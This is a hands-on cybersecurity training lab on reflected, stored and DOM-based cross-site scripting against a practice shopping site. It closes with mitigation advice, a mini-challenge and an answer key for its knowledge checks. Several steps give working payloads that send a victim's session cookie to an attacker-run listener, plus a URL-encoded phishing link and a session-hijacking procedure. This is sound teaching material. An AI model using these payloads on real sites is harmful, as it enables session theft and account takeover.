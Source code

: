 # Web Application Penetration Testing: Cross-Site Scripting (XSS)

This lab introduces users to Cross-Site Scripting (XSS) attacks and discusses techniques for mitigating this type of vulnerability in web sites. 

In this alert, <a href="https://www.cisa.gov/resources-tools/resources/secure-design-alert-eliminating-cross-site-scripting-vulnerabilities" target="_blank">Malicious Cyber Actors Use Cross-Site Scripting Vulnerability to Compromise Systems</a>, CISA provides the following definition for cross-site scripting vulnerabilities:

Cross-site scripting vulnerabilities arise when manufacturers fail to properly validate, sanitize, or escape inputs. These failures allow threat actors to inject malicious scripts into web applications, exploiting them to manipulate, steal, or misuse data across different contexts. Although some developers employ input sanitization techniques to prevent XSS vulnerabilities, this approach is not infallible and should be reinforced with additional security measures.`[1]`

Please see the recently released (January 23, 2025) CISA alert referencing a five-year-old vulnerability in jQuery that was added to their <a href="https://www.cisa.gov/known-exploited-vulnerabilities-catalog" target="_blank">Known Exploited Vulnerabilities Catalog</a> based on evidence of active exploitation.

- <a href="https://www.cisa.gov/news-events/alerts/2025/01/23/cisa-adds-one-known-exploited-vulnerability-catalog" target="_blank">CISA Adds One Known Exploited Vulnerability to Catalog</a>


| &#9201; LAB TIME                           |
| ------------------------------------------ |
| This lab is expected to take sixty (60) minutes. |

*Please consider filling out the lab feedback survey at the bottom of your screen. The survey is available to you at any time while conducting the lab.*

| &#9888; CAUTION                                              |
| ------------------------------------------------------------ |
| You must complete *all* phases of the lab to receive your completion certificate. |

## Learning Objectives

 - Understand cross-site scripting attacks and how they work.
 - Perform a reflected cross-site scripting attack.
 - Perform a stored cross-site scripting attack.
 - Perform a DOM-based cross-site scripting attack.
 - Review best practices to mitigate cross-site scripting attacks.

## Learner Expectations

 - Learners should be comfortable with Linux, web browsers, HTML, JavaScript and command-line operations.

## FOCAL and NICE Framework Mappings

This lab maps with <a href="https://www.cisa.gov/resources-tools/resources/federal-civilian-executive-branch-fceb-operational-cybersecurity-alignment-focal-plan" target="_blank">Federal Civilian Executive Branch (FCEB) Operational Cybersecurity Alignment (FOCAL)</a> area 2 (Vulnerability Management) by managing the attack surface of internet accessible assets.

**NICE Work Roles**

- <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">Exploitation Analysis, Defensive Cybersecurity, Vulnerability Analysis</a>

**NICE Tasks**

- <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">T1118</a>: Identify vulnerabilities
- <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">T1359</a>: Perform penetration testing
- <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">T1563</a>: Implement system security measures
- <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">T1119</a>: Recommend vulnerability remediation strategies

<!-- cut -->

## Scenario

In this lab, you investigate common cross-site scripting attacks in web sites. You start the three most common cross-site scripting attack types: Reflected XSS, Stored XSS and DOM-based XSS. You walk through examples of how each of these attacks can be used against a web site followed with a discussion of best practices to defend against each. The lab concludes with a mini-challenge where you perform a cross-site scripting attack to take over a user's session and gain access to their credit card data.

## System Tools and Credentials

| system | OS type/link |  username | password |
|--------|---------|-----------|----------|
| Kali | Kali Linux | user | tartans |

### What is Cross-Site Scripting?

According to OWASP, <a href="https://owasp.org/www-community/attacks/xss/" target="_blank">Cross-Site Scripting can be defined as</a>:

Cross-Site Scripting (XSS) attacks are a type of injection in which malicious scripts are injected into otherwise benign and trusted websites. XSS attacks occur when an attacker uses a web application to send malicious code, generally in the form of a browser side script, to a different end user. Flaws that allow these attacks to succeed are quite widespread and occur anywhere a web application uses input from a user within the output it generates without validating or encoding it.

An attacker can use XSS to send a malicious script to an unsuspecting user. The end user's browser has no way to know that the script should not be trusted and will execute the script. Because it thinks the script came from a trusted source, the malicious script can access any cookies, session tokens, or other sensitive information retained by the browser and used with that site.`[2]`

## Phase 1: Cross-site Scripting Attacks

<details>
<summary>
<h3>What is a Reflected Cross-Site Scripting Attack?</h3>
</summary>
<p>

Reflected cross-site scripting occurs when a web site takes input from an HTTP request and incorporates that input in the HTTP response without any form of validation or encoding. For example, a web site's search feature accepts user input that is then displayed as part of the search results. Let's break this down into a few simple steps.

1. A malicious actor enters JavaScript into the search textbox and submits their search request.
2. The script is sent to the web server and processed as regular text.
3. The script is returned to the client as part of the response.
4. The inclusion of this unvalidated and unencoded script could lead to execution in the client web browser.

</p>
</details>

<details>
<summary>
<h3>Reflected Cross-Site Scripting Attack Walk-through</h3>
</summary>
<p>

Our goal in this part of the lab is to execute a reflected cross-site scripting attack. Based on the definition above, we need to find a place that will let us inject a script that will be processed on the server and then returned as part of the HTTP response. The first step is to locate a potential injection point. The market web site has a search feature that we will attempt to exploit.

1. (**Kali**) Open the `Kali` console and log in with the credentials: `user` | `tartans`.

2. (**Kali, Firefox**) Open Firefox and navigate to `http://market.skills.hub`. This lab **does not** use HTTPS. The web server has no SSL/TLS certificate, so all data between your browser and the server is sent in plain text. This setup is intentional.

![Homepage of market.skills.hub showing featured products.](./img/s13-image1.png)

3. (**Kali, Firefox**) Click the `PRODUCT SEARCH` link at the top of the page.

![Product search page on market.skills.hub.](./img/s13-image2.png)

4. (**Kali, Firefox**) Enter the following JavaScript into the text box and click the `Search` button.

```
<script>alert("xss");</script>
```

![Product search page with test JavaScript input '<script>alert("xss")</script>' entered in the search field on market.skills.hub.](./img/s13-image3.png)

5. (**Kali, Firefox**) This should produce an alert dialog box with the string `xss` displayed as the message. 

![Search results page displaying the effect of the JavaScript input '<script>alert("xss")</script>' in the product search on market.skills.hub.](./img/s13-image4.png)

The steps below indicate we have discovered a reflected cross-site scripting vulnerability: 
   - We entered JavaScript into the web site's `Search` field.
   - Clicking the `Search` button caused the web browser to make an HTTP POST to the web server.
   - The web server processed our request, then included the JavaScript in the results, which were executed when rendered by the browser.

What are some of the potential impacts of a reflected cross-site scripting attack? If a malicious user can inject script into a web page that is executed by a target user, they have the potential to view or modify any information the target can access. Additionally, they may be able to impersonate or take any actions on the web site the targeted user is allowed to perform. For example, if an attacker knows you shop on the market web site, they could set up their own server as a listener and then create a phishing email with an encoded hyperlink that contains JavaScript. When executed, the script could add the target user's session cookie to a querystring that calls back to the malicious server, providing the attacker with a usable session token that could be used to log in and impersonate the target user. 

One of the difficult parts about using a reflected attack is timing. In the scenario above, if the targeted user is not currently logged in, they may not have an active session cookie that can be stolen. In the next section we discuss stored cross-site scripting attacks, which can make life easier for malicious actors because their dangerous scripts can be persisted and executed repeatedly by multiple users.


**Knowledge Check Question 1**: *Which three-letter acronym is also used to describe cross-site scripting?*

**Knowledge Check Question 2**: *What kind of cross-site scripting occurs when a web site takes input from an HTTP request and incorporates that input in the HTTP response without any form of validation or encoding?*

</p>
</details>

<details>
<summary>
<h3>What is a Stored Cross-Site Scripting Attack?</h3>
</summary>
<p>

Stored cross-site scripting, sometimes referred to as persistent cross-site scripting, occurs when a web site takes untrusted input and later displays that data without any form of validation or encoding. This allows a malicious actor to inject and store scripts that will later be accessed and executed when returned to a client browser.

An example of this would be when a web site accepts a product review, comment or blog post and then displays that text on the web site without using some form of validation or encoding. Let's provide an example with a few simple steps.

1. A malicious actor posts a product review that contains JavaScript similar to the following:

```
<script type="text/javascript">document.location="http://10.5.5.105/?c="+document.cookie;</script>
```

2. The product review for this item, or in our case the malicious script, is stored in the web site's product review database table.

3. Each time someone visits the web page that contains this text, the script will be executed and send a cookie to a server controlled by a malicious actor.

In the next section, you perform a stored cross-site scripting attack.

</p>
</details>

<details>
<summary>
<h3>Stored Cross-Site Scripting attack walk-through</h3>
</summary>
<p>

1. (**Kali**) Open the `Kali` console and log in with the credentials: `user` | `tartans`.

2. (**Kali, Firefox**) Open Firefox and navigate to `http://market.skills.hub`. This lab **does not** use HTTPS. The web server has no SSL/TLS certificate, so all data between your browser and the server is sent in plain text. This setup is intentional.

![Homepage of market.skills.hub showing featured products.](./img/s13-image1.png)

3. (**Kali, Firefox**) Click the `LOGIN` link on the top navigation menu. On the Login page, enter the following credentials, then click the `Login` button.

```
Email: bcampbell@skills.hub
Password: operating
```

![Login page of market.skills.hub.](./img/s13-image5.png)

4. (**Kali, Firefox**) After logging in, you are redirected back to the market home page. Click the `View` link on one of the products. This takes you to a product detail page for that item where you can post a product review.

![Dashboard after logging in to market.skills.hub.](./img/s13-image6.png)

![Product page on market.skills.hub for leaving a product review.](./img/s13-image7.png)

5. (**Kali, Firefox**) Click the `Add a Review` button.

![Add a review form on market.skills.hub.](./img/s13-image8.png)

6. (**Kali, Firefox**) Select any number of stars from the `Rating` field.

![Submit a review page on market.skills.hub.](./img/s13-image9.png)

7. (**Kali, Terminal**) Before saving our review, we want to set up a simple web server as a listener to see if our malicious script can capture any session cookies. Open a terminal window and enter the following command to start a Python web server listening on port 80.

```
python3 -m http.server 80
```

![Terminal showing a simple web listener being set up using 'python3 -m http.server 80'.](./img/s13-image10.png)

8. (**Kali, Terminal**) Open a new terminal window on your Kali VM and get your IP address by typing `ip a` then hitting `enter`. Your IP address is the address attached to the `eth0` network interface. In this case, the IP address is `10.5.5.113`, but your IP address may be different. Take note of this IP address because we need it in the next step.

![Terminal showing the result of the 'ip a' command.](./img/s13-image11.png)

9. (**Kali, Firefox**) Go back to the product review page on the market web site. The `Review` text box looks like a great place to inject and store malicious JavaScript. Enter the following text in the `Review` field, making sure to replace the IP address of `10.5.5.113` with your IP address obtained in the previous step.

When this script executes the `document.cookie` command will retrieve the cookies from the web browser and those key/value pairs will be appended to the querystring in the URL. The `document.location` command will then redirect the user's web browser to our malicious web server on `10.5.5.113` with the cookie values included in the HTTP GET request. In the next step, you will see the results of the script execution.

```
<script type="text/javascript">document.location="http://10.5.5.113/?c="+document.cookie;</script>
```

![Submit a review page on market.skills.hub with malicious JavaScript inserted.](./img/s13-image12.png)

10. (**Kali, Firefox**) Click the `Submit Review` button to save your review. You are immediately redirected to `http://10.5.5.113/?c=PHPSESSID=0878tio7oh2jjdqmb1j8ckviaj`. Your IP address and PHPSESSID cookie value could be different, but the result should be the same. 

![Result page on market.skills.hub after clicking Submit Review.](./img/s13-image13.png)

11. (**Kali, Terminal**) Return to the terminal window running the Python web server. Here you can view the GET request made to the malicious actor's web server by the compromised client web browser.

![Terminal showing data captured by the previously created Python listener.](./img/s13-image18.png)

What just happened here? When you saved your product review, the script you entered was saved to the product review database. When the web site redirected you back to the product's detail page your script was executed.

The following steps below indicate that we have discovered a stored cross-site scripting vulnerability: 
   - We entered JavaScript into the product `Review` text box.
   - Clicking the `Submit Review` button saved your script as a product review.
   - When the web server redirected you back to the product details page all the product reviews were loaded. Due to the lack of encoding of the user-supplied text, the script in our review was executed.
   - The executed script grabbed the PHPSESSID cookie value and appended it to a querystring before redirecting the browser to our malicious web site. 
   - One of the most important things to note is that the script has been stored and will execute for every user that loads this page, potentially providing us with a large number of session IDs that we can use to authenticate as different users of the market web site.

What are some of the potential impacts of a stored cross-site scripting attack? If a malicious user can inject script into a web page that is executed by a target user they have the potential to view or modify any information the target can access. Additionally, they may be able to impersonate or take any actions on the web site that the targeted user is allowed to perform. 

There are a few differences between stored and reflected cross-site scripting attacks:
 - In a stored XSS attack, the script is stored in the application in locations such as databases, files, logs, etc. There is no need for the attacker to use an external source to introduce the script.
  - In a stored XSS attack, the script can be executed repeatedly by multiple victims. For example, if a script is added to a product review, the script could be executed by every user that views that review.

**Knowledge Check Question 3**: *What ten-letter word is another name for stored cross-site scripting?*

In the next section, we discuss DOM-based cross-site scripting attacks.

</p>
</details>

<details>
<summary>
<h3>What is a DOM-based Cross-Site Scripting Attack?</h3>
</summary>
<p>

<a href="https://www.invicti.com/learn/dom-based-cross-site-scripting-dom-xss/" target="_blank">Invicti offers one of the better explanations of DOM-based cross-site scripting</a> on their web site: 

The DOM (Document Object Model) is an internal data structure that stores all the objects and properties of a web page. For example, every tag used in HTML code represents a DOM object. Additionally, the DOM of a web page contains information about such properties as the page URL and meta information. Developers may refer to these objects and properties using JavaScript and change them dynamically.

The Document Object Model is what makes dynamic, single-page applications possible. However, it is also what makes DOM-based cross-site scripting possible.

Unlike all other types of cross-site scripting, DOM-based XSS is purely a client-side vulnerability. This means that during a DOM-based XSS attack, the payload never reaches the server. The entire attack happens in the web browser.

DOM-based XSS is similar to reflected XSS because no information is stored during the attack. A DOM-based XSS attack is also conducted by tricking a victim into clicking a malicious URL. `[3]`

What is the difference between DOM-based cross-site scripting and reflected cross-site scripting?

The most important difference between these XSS techniques is where the attack is injected. Reflected cross-site scripting attack payloads are injected on the server side while DOM-based payloads are injected on the client/browser side.

</p>
</details>

<details>
<summary>
<h3>DOM-based Cross-Site Scripting Attack Walk-through</h3>
</summary>
<p>

What are some of the potential impacts of a DOM-based cross-site scripting attack? If a malicious user can inject script into a web page that is executed by a target user, they have the potential to view or modify any information the target can access. Additionally, they may be able to impersonate or take any actions on the web site the targeted user is allowed to perform. Because reflected and stored cross-site scripting attacks both involve server side interaction, evidence of these kinds of attacks can be logged and potentially even mitigated using tools such as Web Application Firewalls (WAF). In a DOM-based attack, all the execution takes place on the client side, thus there are often fewer logs and artifacts left behind after this kind of attack.

1. (**Kali**) Open the `Kali` console and login with the credentials: `user` | `tartans`.

2. (**Kali, Firefox**) Open Firefox and navigate to `http://market.skills.hub/promos.php`. This lab **does not** use HTTPS. The web server has no SSL/TLS certificate, so all data between your browser and the server is sent in plain text. This setup is intentional.

![Promotions page on market.skills.hub.](./img/s13-image14.png)

3. (**Kali, Firefox**) You should be looking at a page similar to the screen capture below. Here we can see a list of current promotions, including a link at the bottom of the page that says `Apply Coupons`. When the `Apply Coupons` link is clicked, you are greeted with a dialog box that says `Coupons applied to your account!`. 

![Promotions page after clicking "Apply Coupons".](./img/s13-image15.png)

4. (**Kali, Firefox**) Let's see if we can exploit this. Right click on the `Apply Coupons` link and select `Inspect` from the menu. The HTML code associated with this button looks like this:

```
<a id="couponlink" href="#" onclick="alert('Coupons applied to your account!');">Apply Coupons</a>
```

!["Apply Coupons" link inspected on market.skills.hub.](./img/s13-image16.png)

5. (**Kali, Firefox**) Below the link we can see a `<script>` tag. Let's expand this.

```
const params = new URLSearchParams(window.location.search);
const action = params.get("apply");
if (action) {
      document.getElementById("couponlink").setAttribute("onclick", action);
   }
   else {
      document.getElementById("couponlink").setAttribute("onclick", "alert('Coupons applied to your account!');");
   }
```

![Inspect view showing expanded <script> tag on promotions page.](./img/s13-image17.png)

6. (**Kali, Firefox**) Based on the code, we can see that if there is a query string value named `apply` we can modify the behavior of the `onclick` event of this link.

7. (**Kali**) Before we go any further, let's start our malicious web server that will be used to collect session IDs from those that click on our phishing email. We will provide additional details about that in later steps.

8. (**Kali**) Open a terminal window and get the IP address of your Kali machine by typing `ip a`. Look at the IP address associated with `eth0`. In our case it is `10.5.5.113`, but your IP address may be different.

![Terminal showing result of 'ip a' command.](./img/s13-image11.png)

9. (**Kali**) Enter the following command in your terminal window to start a local web server listening on port 9000 on your Kali machine.

```
python3 -m http.server 9000
```

![Terminal running 'python3 -m http.server 9000'.](./img/s13-image19.png)

10. (**Kali, Firefox**) Imagine the scenario where a malicious actor creates a link in a phishing email with the hopes of capturing an actively logged-in user's session ID so they can impersonate them on the market web site. We can begin by creating a link like the one below. Make sure to replace the IP address of `10.5.5.113` with the IP address of your Kali VM from Step 8.

```
http://market.skills.hub/promos.php?apply=window.location.href=%27http://10.5.5.113:9000?session=%27%2Bdocument.cookie;
```

When a user clicks the link above that would be included in the email, they are taken to the `promos.php` page. The JavaScript on the page executes and modifies the link based on the code included in the `apply` querystring value. Once the user clicks the `Apply Coupons` page, the `onclick` event fires and the user's browser is redirected to a malicious web server (`http://10.5.5.113:9000`) with the current session cookie value included in the `session` querystring value.

![Promotions page on market.skills.hub.](./img/s13-image20.png)

It would probably be a good idea for the malicious actor to take one additional step to obfuscate the link by URL encoding it. We can do that with tools such as CyberChef. This step is not necessary for this lab, thus the details of how to do this will not be covered here.

```
http%3A%2F%2Fmarket%2Eskills%2Ehub%2Fpromos%2Ephp%3Fapply%3Dwindow%2Elocation%2Ehref%3D%2527http%3A%2F%2F10%2E5%2E5%2E113%3A9000%3Fsession%3D%2527%252Bdocument%2Ecookie%3B
```

11. (**Kali, Firefox**) To simulate being the victim of this phishing scam, open a new browser window and paste the link you created in Step 10 into the URL bar then hit `enter`. 

![Browser showing simulated phishing test with pasted URL.](./img/s13-image20.png)

12. (**Kali, Firefox**) You are taken to the `promos.php` page of the market web site. Click the `Apply Coupons` link.

13. (**Kali, Firefox**) Notice that you have been redirected to the malicious web server running on your Kali machine. Note that the URL contains a querystring value named `session` which contains the `PHPSESSID` cookie value. 

```
http://10.5.5.113:9000/?session=PHPSESSID=9iv85t3j2uri6p3j4jn5spnb7v
```

![Browser redirected to malicious web server.](./img/s13-image21.png)

14. (**Kali, Terminal**) Return to the terminal window running the Python web server on port 9000. Here you can view the GET request made to the malicious actor's web server by the compromised client web browser.

![Terminal showing Python web server GET request result.](./img/s13-image22.png)

Had this user been logged in to the market web site, you could place that `PHPSESSID` value in your own cookie for the market web site and impersonate them without further authentication.

**Knowledge Check Question 4**: *In the context of a web site, what does DOM stand for?*

In the next section, we discuss cross-site scripting mitigation techniques.

</p>
</details>

<br />

## Phase 2: Mitigation Techniques

<details>
<summary>
<h3>Mitigation Techniques</h3>
</summary>
<p>

Phase 1 of this lab covered several ways to perform cross-site scripting attacks against a web site. Phase 2 covers seven ways to help prevent this class of attacks. They are:

1. Use modern frameworks
2. Encode output
3. Validate input
4. Sanitize HTML / Whitelisting
5. Content Security Policy (CSP)
6. Web application firewalls
7. Cookie attributes

#### Use Modern Frameworks

Modern web frameworks such as React, Angular, Vue.js, ASP.NET and others provide many built-in features to help mitigate cross-site scripting attacks. They provide safe default methods to encode and escape potentially dangerous output. Keep in mind that developers can override and bypass these options, so the use of a framework does not guarantee the prevention of cross-site scripting vulnerabilities. It is not uncommon for bugs to be found that allow malicious actors to bypass the default protections provided by frameworks. It is important to keep third-party software and libraries updated.

#### Encode Output

In order to help prevent cross-site scripting attacks, all untrusted and user-supplied data should be treated as potentially malicious. Before displaying this data on a web page, you should consider escaping and encoding the output. 

- As mentioned above, using modern frameworks can provide a lot of help as they are widely used and well tested. Trying to build your own framework or library to handle cross-site scripting is not recommended.

- HTML encoding can be used to replace special characters like `<` and `>`. An example would be encoding this: `<script>alert('XSS');</script>` to: `&lt;script&gt;alert('XSS');&lt;/script&gt;`

The most commonly encoded characters and their conversions include:

| Character | HTML Entity      |
|-----------|------------------|
| `<`       | `&lt;`           |
| `>`       | `&gt;`           |
| `&`       | `&amp;`          |
| `"`       | `&quot;`         |
| `'`       | `&#x27;`         |

#### Validate Input

Input validation is the process of verifying that all data entered into a system by external sources is in a safe and expected format. <a href="https://cheatsheetseries.owasp.org/cheatsheets/Input_Validation_Cheat_Sheet.html" target="_blank">A more detailed explantion</a> offered by the OWASP foundation is provided below:

Goals of Input Validation  
Input validation is performed to ensure only properly formed data is entering the workflow in an information system, preventing malformed data from persisting in the database and triggering malfunction of various downstream components. Input validation should happen as early as possible in the data flow, preferably as soon as the data is received from the external party.

Data from all potentially untrusted sources should be subject to input validation, including not only Internet-facing web clients but also backend feeds over extranets, from suppliers, partners, vendors or regulators, each of which may be compromised on their own and start sending malformed data.

Input Validation should not be used as the primary method of preventing XSS, SQL Injection and other attacks which are covered in respective cheat sheets but can significantly contribute to reducing their impact if implemented properly.

Input Validation Strategies  
Input validation should be applied at both syntactic and semantic levels:

Syntactic validation should enforce correct syntax of structured fields (e.g. SSN, date, currency symbol).
Semantic validation should enforce correctness of their values in the specific business context (e.g. start date is before end date, price is within expected range).
It is always recommended to prevent attacks as early as possible in the processing of the user's (attacker's) request. Input validation can be used to detect unauthorized input before it is processed by the application. `[7]`

#### Sanitize HTML

This technique is very similar to and works in conjunction with the steps listed above in the `Encoding Output` section. To sanitize HTML, you need to remove or modify HTML elements, attributes and scripts that are potentially dangerous. 

- Use libraries such as `DOMPurify` to sanitize HTML. This library is written in JavaScript and works with most modern web browsers. You can find additional information <a href="https://github.com/cure53/DOMPurify" target="_blank">here</a>.

- Whitelisting is a technique that involves allowing only specific HTML elements and attributes considered safe to be displayed. Any output that is not specifically allowed on the whitelist should either be safely encoded or removed.

#### Content Security Policy

A Content Security Policy (CSP) is a feature that exists in most modern web browsers to help prevent cross-site scripting by limiting the resources a browser loads. This feature works by configuring the web server to add a Content-Security-Policy HTTP response header that contains one or more directives such as: `default-src`, `img-src`, `style-src`, `object-src`, `base-uri`, `strict-dynamic`, `frame-ancestors`

For detailed discussions of Content Security Policy information, read the following documents: <a href="https://developer.mozilla.org/en-US/docs/Web/HTTP/Guides/CSP" target="_blank">Content Security Policy</a> and <a href="https://portswigger.net/web-security/cross-site-scripting/content-security-policy" target="_blank">PortSwigger: Content security Policy</a>.

#### Web Application Firewalls

Web Application Firewalls (WAF) act as a reverse-proxy server sitting in front of a web site and are used to intercept and monitor HTTP traffic. By monitoring HTTP traffic headed inbound to the server from the internet, WAFs can be configured to filter strings suspected of containing XSS, SQL injection and other similar types of attacks. However, due to their location, they can't defend against clients-side cross-site scripting attacks such as DOM-based XSS. 

#### Cookie Attributes

Cookie attributes provide additional information about a cookie that instructs web browsers how to handle a cookie. They provide details that determine everything from the lifespan to the security of the cookie. 

The `HttpOnly` attribute helps protect cookies from cross-site scripting (XSS) attacks by instructing the browser that the cookie should not be accessible via client-side scripts. In the event that a script executes on the client-side, it cannot access a protected cookie and may help reduce leaking sensitive data.

The `Secure` attribute indicates that cookies should only be sent using HTTPS. While most web sites have begun using HTTPS by default, cookies should still have the Secure directive explicitly enabled.

The `Expires` and `Max-Age` cookie attributes should be configured so cookies expire as soon as they are no longer needed. Login cookies and session identifiers, in particular, should be set to expire as quickly as possible.

The `SameSite` cookie attribute forbids the browser from sending cookies to a third-party web site via cross-origin requests. Where possible, it is recommended that you set  `SameSite=Strict`. This causes the web browser to only send cookies for first party context requests. This means the requests must originate from the site that set the cookie, based on the URL.

**Knowledge Check Question 5**: *What is the HTML encoded equivalent of the & character?*

## Additional Resources

Protecting against cross-site scripting is hard. As is true in most security contexts, taking a multi-layered approach will provide the best results, but may not guarantee that all vulnerabilities have been addressed. The mitigation techniques discussed here are not a complete list and only provide a high-level overview of each of the topics. We encourage you to follow the links and resources provided to learn more about each subject.

<a href="https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html" target="_blank">Cross Site Scripting Prevention Cheat Sheet</a>

<a href="https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html" target="_blank">DOM based XSS Prevention Cheat Sheet</a>

</p>
</details>

## Mini-Challenge

<details>
<summary>
<h3>Click Here to Access the Mini-Challenge</h3>
</summary>
<p>

*A solution guide link is available following the grading section, should you need it.*

### Mini-Challenge Objectives
- Exploit the `SITE FEEDBACK` feature of the market web site (`http://market.skills.hub/feedback.php`) to execute a stored cross-site scripting vulnerability.
- Use stored cross-site scripting to send a logged-in user's `PHPSESSID` cookie value to a server you control, such as a web server or netcat listener. 
- Use this cookie to impersonate another market user and obtain the last 4 digits of their credit card number from their profile page.
  - Cookies are available in Firefox under the `Storage` tab of the `Web Developer Tools`. 

- Once you have added and tested your malicious script, navigate to `https://skills.hub/lab/tasks` and click the `Submit` button to test your exploit. 

![Grading page on skills.hub/lab/tasks with submit button clicked to test exploit.](./img/s13-image23.png)

- You can click the `Refresh` button that appears to check the status of the test.

![Grading page on skills.hub/lab/tasks after refresh.](./img/s13-image24.png)

- After the following message appears under the `Status` column, return to the market web site and use your captured `PHPSESSID` cookie value to obtain the targeted user's credit card data.

```
Success -- The user browsed the feedback site with their session token.
```

![Grading page on skills.hub/lab/tasks showing grading results.](./img/s13-image25.png)

### Grading Check

**Grading Check Question 1**: *What are the last 4 digits of the impersonated market user's credit card?*

`Copy any token or flag strings to the corresponding question submission field to receive credit.`

*Please attempt the mini-challenge as best you can, but if you get stuck you can reference the solution guide using the link below.*

</p>
</details>

<details>
<summary>
<h3>Lab Wrap-up</h3>
</summary>
<p>

### Conclusion

This lab provided hands-on experience with common cross-site scripting (XSS) attacks and their defenses. You started with reflected cross-site scripting attacks, then continued with stored and DOM-based attacks. These exercises demonstrated how attackers can exploit various types of cross-site scripting vulnerabilities and how proper mitigation techniques can help reduce these vulnerabilities. 

During this lab, you:

 - Creating reflected, stored and DOM-based cross-site scripting attacks for understanding
 - Using and even combining these different scripting attacks to achieve various results
 - Mitigating techniques you can use to protect websites from those attack methods

Skills exercised:

- S0248: Skill in performing target system analysis
- S0440: Skill in identifying target vulnerabilities
- S0504: Skill in identifying vulnerabilities
- S0667: Skill in assessing security controls
- S0544: Skill in recognizing vulnerabilities

### References

- [1] <a href="https://www.cisa.gov/resources-tools/resources/secure-design-alert-eliminating-cross-site-scripting-vulnerabilities" target="_blank">Malicious Cyber Actors Use Cross-Site Scripting Vulnerability to Compromise Systems</a>

- [2] <a href="https://owasp.org/www-community/attacks/xss/" target="_blank">OWASP Cross-Site Scripting</a>

- [3] <a href="https://www.invicti.com/learn/dom-based-cross-site-scripting-dom-xss/" target="_blank">DOM-based cross-site scripting</a>

- [4] <a href="https://portswigger.net/web-security/cross-site-scripting/reflected" target="_blank">Reflected XSS</a>

- [5] <a href="https://portswigger.net/web-security/cross-site-scripting/stored" target="_blank">Stored XSS</a>

- [6] <a href="https://portswigger.net/web-security/cross-site-scripting/dom-based" target="_blank">DOM-based XSS</a>

- [7] <a href="https://cheatsheetseries.owasp.org/cheatsheets/Input_Validation_Cheat_Sheet.html" target="_blank">OWASP Input Validation Cheat Sheet</a>

- [8] <a href="https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html" target="_blank">XSS Filter Evasion Cheat Sheet</a>

- [9] <a href="https://gchq.github.io/CyberChef/" target="_blank">CyberChef</a>

- [10] <a href="https://www.cisa.gov/resources-tools/resources/federal-civilian-executive-branch-fceb-operational-cybersecurity-alignment-focal-plan" target="_blank">Federal Civilian Executive Branch (FCEB) Operational Cybersecurity Alignment (FOCAL)</a>

- [11] <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">NICE Framework</a>

</p>
</details>


<details>
<summary>
<h3>Answer Key</h3>
</summary>
<p>

**Knowledge Check Question 1**: *Which three-letter acronym is also used to describe cross-site scripting?*
 - *`XSS`*

**Knowledge Check Question 2**: *What kind of cross-site scripting occurs when a web site takes input from an HTTP request and incorporates that input in the HTTP response without any form of validation or encoding?*
 - *`reflected`*

**Knowledge Check Question 3**: *What 10 letter word is another name for stored cross-site scripting?*
 - *`persistent`*

 **Knowledge Check Question 4**: *In the context of a web site, what does DOM stand for?*
  - *`document object model`*

**Knowledge Check Question 5**: *What is the HTML encoded equivalent of the & character?*
 - *`&amp;`*

</p>
</details>
